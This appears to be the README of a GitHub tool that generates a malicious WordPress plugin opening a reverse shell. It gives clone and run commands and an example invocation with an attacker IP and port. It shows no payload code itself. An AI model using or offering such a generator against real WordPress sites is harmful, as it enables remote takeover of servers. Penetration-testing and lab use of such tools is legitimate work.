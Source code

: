 # WordPress revrese shell Plugin Generator

## Installation
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage

Usage = `python3 wp_rshell.py [IP] [PORT] [FILE NAME]`\n
FILE NAME = Plese dont provide extension

Example:-
    `# python3 wp_rshell.py 10.10.11.100 4455 payload`
